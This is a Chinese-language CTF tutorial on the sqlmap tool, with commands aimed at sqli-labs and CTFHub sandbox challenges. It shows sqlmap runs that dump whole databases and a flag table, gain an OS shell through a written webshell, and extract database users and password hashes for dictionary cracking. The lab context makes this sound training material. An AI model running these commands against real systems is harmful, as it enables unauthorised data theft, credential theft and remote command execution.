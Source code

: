# sqlmap工具的简单使用

*管他黑猫白猫，能抓老鼠就是好猫*

[^如果在赛程上遇到不会的sql注入 但是却有sqlmap，那无疑是一件天大的喜事]: ——Neko205

## 软件安装

`git clone https://github.com/sqlmapproject/sqlmap.git`

## sql注入分类

想要找到漏洞我们就要找到可以出现的漏洞点，依据注入点分类可以分为：

1. 数字型
2. 字符型
3. 搜索型

以及提交方式的分类

1. get注入
2. post注入
3. cookie注入
4. http头注入

还有基于信息获取的分类

1. 布尔注入
2. 时间注入
3. 报错注入
4. union联合查询注入

个人体感而言，前两者相对常见，可能是受制于技术原因，我并没有挖掘出过cookie与http头注入

更加具体的详解将在sql手动注入中详细阐述

## sqlmap工具的使用

一个最简单的使用方法

`sqlmap -u http://119.91.207.168/sqlilabs/Less-8/?id=1`

-u 确定要测试的url

实测这种最无脑的使用方式能打到sqli-lab靶场第九层

既然能确定漏洞了，那么如何提取数据，这里我们使用ctfhub的几道题目说明

##  [CTFHUB]整数型注入

 使用：

`sqlmap -u "http://challenge-a4d216f6c4a908a1.sandbox.ctfhub.com:10800/?id=1" `

![](https://picdl.sunbangyan.cn/2023/11/27/54755727fff9dbabfd98be5a13b71dfa.jpeg)

我们可以看到sqlmap获取到了两种数据获取方式

一个是基于时间的盲注，另一个则是union联合查询注入，暂时先不管这两个我们只要知道，它可以注入。

这里我们可以使用暴力一点的方式，sqlmap中有一个命令--dump在不添加参数的情况下他会默认导出当前数据库的所有条目

在通过grep命令过滤，我们就可以较为精确的获取自己感兴趣的信息

`sqlmap -u "http://challenge-a4d216f6c4a908a1.sandbox.ctfhub.com:10800/?id=1" -dump | grep ctfhub`

![](https://picdl.sunbangyan.cn/2023/11/27/d3df37a364c6a23250557e2d6fa52489.jpeg)

~~当然你也可以再暴力一点直接使用dump-all 或者直接--all~~

其实也有不那么暴力的方式，先通过-dbs枚举出所有数据库

`sqlmap -u "http://challenge-a4d216f6c4a908a1.sandbox.ctfhub.com:10800/?id=1" -dbs`

![](https://picst.sunbangyan.cn/2023/11/28/3c2996e45e6a039daf0b374a3dbeaaa4.jpeg)

这里我们看到出现了一个我们感兴趣的数据库，sqli，这里我们可以用-D来指定我们感兴趣的数据库，且使用-tables枚举出数据库中的所有表。

`sqlmap -u "http://challenge-a4d216f6c4a908a1.sandbox.ctfhub.com:10800/?id=1" -D sqli -tables`

![](https://picst.sunbangyan.cn/2023/11/28/aa044f43be8524ac4c260b1c5f6485e4.jpeg)

可以看到flag表已经出来了，然后我们就可以很优雅的使用-T指定数据表再使用-dump导出数据表中的数据

`sqlmap -u "http://challenge-a4d216f6c4a908a1.sandbox.ctfhub.com:10800/?id=1" -D sqli -tables -T flag -dump`

![](https://picdm.sunbangyan.cn/2023/11/28/962c8a7bb885286cbafc8c62c08a06ba.jpeg)

得到flag

ctfhub{4aff866bac2652f563ab9dff}

## [CTFHUB]字符型注入

这题也是需要我们取得flag，但我们也可以试试看能不能获取别的敏感数据，不过我们先以最快的速度获取下flag

`sqlmap -u "http://challenge-a4d216f6c4a908a1.sandbox.ctfhub.com:10800/?id=1" -dump | grep ctfhub`

![](https://picdl.sunbangyan.cn/2023/11/28/5a1ab69291dfcc8801a2eabe1074aa07.jpeg)

### 1.sqlmap --os-shell

某些数据库， 在某种情况下数据库通过某种方法能够直接执行系统命令，sqlmap则可以直接实现这个功能，os-shell的具体实现我们先不讨论，我们先看以下他的效果

`sqlmap -u "http://challenge-a4d216f6c4a908a1.sandbox.ctfhub.com:10800/?id=1" --os-shell`

![](https://picdm.sunbangyan.cn/2023/11/28/d2cc3b76b06433e49026e26e93c49778.jpeg)

在使用命令后map会先问我们需要使用那种语言——在mysql数据库下os-shell本质是通过写入webshell来达到执行命令；第二个选项确定网页在服务器上的绝对路径，一般情况下这里会用到服务器泄漏的路径，但也可以使用默认列表试试运气，或者直接使用第四个选项进行暴力搜索

![](https://picst.sunbangyan.cn/2023/11/28/51d7abedb3e612b80fd9f2176962b03b.jpeg)

成功注入后我们就可以按照正常渗透的思路执行shell命令。

### 获得数据库用户名与密码

在sqlmap可以使用--users，--passwords来获得数据库的用户与密码

`sqlmap -u "http://challenge-a4d216f6c4a908a1.sandbox.ctfhub.com:10800/?id=1" --users`

--users

![](https://picst.sunbangyan.cn/2023/11/28/2b21565b5484bc48fa90476f6ae05dfd.jpeg)

--passwords

`sqlmap -u "http://challenge-a4d216f6c4a908a1.sandbox.ctfhub.com:10800/?id=1" --passwords`

![](https://picdl.sunbangyan.cn/2023/11/28/d19c16c9bd40b9e18e1126c6679e8747.jpeg)

第一个选项是问***是否要将哈希值存储到临时文件中，以便最终使用其他工具进行进一步处理*** 

第二个选项是问***是否要对检索到的密码哈希执行基于字典的攻击***

第三个选项是问***要使用什么字典文件***

第四个选项是问***是否要使用常用密码后缀***

按照需求选择 ，~~一般情况下无脑下一步就行~~

